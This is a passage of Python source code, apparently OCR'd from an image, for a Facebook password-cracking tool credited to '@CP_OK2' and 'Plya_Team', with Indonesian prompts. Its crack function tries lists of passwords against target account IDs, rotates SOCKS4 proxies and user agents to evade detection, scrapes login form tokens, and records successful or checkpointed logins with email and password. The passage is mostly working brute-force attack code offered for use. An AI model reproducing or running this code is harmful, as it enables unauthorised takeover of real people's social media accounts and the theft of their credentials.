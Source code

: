 	print(f'[{b}•{x}]{h} OK : {h}%s '%(ok))
	print(f'{x}[{b}•{x}]{k} CP : {k}%s{x} '%(cp))
	print('')
	print('>> Lanjut Crack Kembali ( Y/t ) ? ')
	woi = input('>> Pilih : ')
	if woi in ['y','Y']:
		back()
	else:
		print(f'\t{x}>>{k} Good Bye ❤❤{x} << ')
		time.sleep(2)
		exit()

		
def crack(idf,pwv):
	global loop,ok,cp
	bo = random.choice([m,k,h,b,u,x])
	sys.stdout.write(f"\r{bo}[ABU] {P}[{h}{loop}{P}]>~<[{h}{len(id)}{P}]{bo}•{P}[{h}Ok{P}•{bo}{ok}{P}] "),
	sys.stdout.flush()
	ua = random.choice(ugen)
	ua2 = random.choice(ugen2)
	ses = requests.Session()
	for pw in pwv:
		try:
			nip=random.choice(prox)
			proxs= {'http': 'socks4://'+nip}
			ses.headers.update({"Host":'m.facebook.com',"upgrade-insecure-requests":"1","user-agent":ua2,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})
			p = ses.get('https://p.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&_rdr')
			dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":idf,"next":"https://p.facebook.com/login/save-device/","flow":"login_no_pin","pass":pw,}
			koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])
			koki+=' m_pixel_ratio=2.625; wd=412x756'
			heade={"Host":'m.facebook.com',"cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://m.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":ua,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}
			po = ses.post('https://p.facebook.com/login/device-based/validate-password/?shbl=0',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False,proxies=proxs)
			if "checkpoint" in po.cookies.get_dict().keys():
				
				if 'ya' in oprek:
					akun.append(idf+'|'+pw)
					ceker(idf,pw)
				else:
					print('\n')
					print(('\033[92m—'*25)+'\n DeCoDe By @CP_OK2\n'+('—'*25))
					statuscp = f'''
[🔴] CP ACCOUNT					
──────────
- # Decode  By @CP_OK2 
- # [ Plya_Team ]  
[🔸] - EMAIL : {idf}\n
[🔸] - PASSWERD : {pw}
- # Decode  By @CP_OK2 